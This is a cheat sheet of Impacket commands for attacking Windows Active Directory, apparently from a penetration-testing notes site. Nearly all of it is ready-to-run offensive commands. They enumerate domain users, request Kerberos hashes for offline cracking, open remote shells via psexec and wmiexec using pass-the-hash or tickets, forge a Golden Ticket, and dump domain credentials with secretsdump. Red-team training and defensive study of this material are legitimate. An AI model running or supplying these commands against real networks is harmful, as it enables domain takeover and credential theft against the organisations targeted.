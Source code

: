 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### **Get AD users**

```csharp
python3 GetADUsers.py -all -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

### Get SPN users

#### with a ticket

```csharp
./GetUserSPNs.py -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

#### with a password

```csharp
./GetUserSPNs.py -request -dc-ip <DC_IP> Domain.local/Administrator
```

#### Account witch doesn't require Kerberos Authentication

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

{% hint style="warning" %}
Ensure that you added the DC ip into /etc/hosts and set up the DNS into /etc/resolv.conf
{% endhint %}

### Pass the hash

```csharp
./psexec.py  -hashes AAD3B435B51404EEAAD3B435B51404EE:<NTLM HASH> Administrator@TARGET  cmd.exe
```

### Kerberos ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Wmiexec

{% hint style="warning" %}
As opposite to psexec which provides NT LOCAL/System shell, wmiexec allows to keep the requested user context, i.e. Domain\Administrator will get an Domain\Administrator shell.
{% endhint %}

### login / password

```csharp
proxychains ./wmiexec.py  Domain/user:Password@1.2.3.4
```

### kerberos ticket

{% hint style="info" %}
Kerberos ticket must be injected first.
{% endhint %}

```csharp
./wmiexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Kerberos Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

### DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

## MSSQLclient.py

```csharp
./mssqlclient.py user@server -windows-auth
```

